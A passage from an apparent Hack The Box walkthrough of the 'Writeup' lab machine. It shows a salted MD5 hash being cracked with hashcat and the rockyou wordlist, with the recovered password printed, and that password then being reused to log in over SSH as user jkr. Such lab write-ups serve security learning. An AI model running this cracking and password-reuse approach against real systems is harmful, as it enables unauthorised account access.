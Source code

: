 I added hash:salt to a file:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ echo -n '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
```

And cracked it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ hashcat -a 0 -m 20 hash --wordlist /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

...[snip]...

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Thu Jul 15 21:25:19 2021 (4 secs)
Time.Estimated...: Thu Jul 15 21:25:23 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2094.9 kH/s (0.27ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4360192/14344385 (30.40%)
Rejected.........: 0/4360192 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> raygan96

Started: Thu Jul 15 21:24:30 2021
Stopped: Thu Jul 15 21:25:24 2021
```

I immediately checked for password reuse and logged in via SSH:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
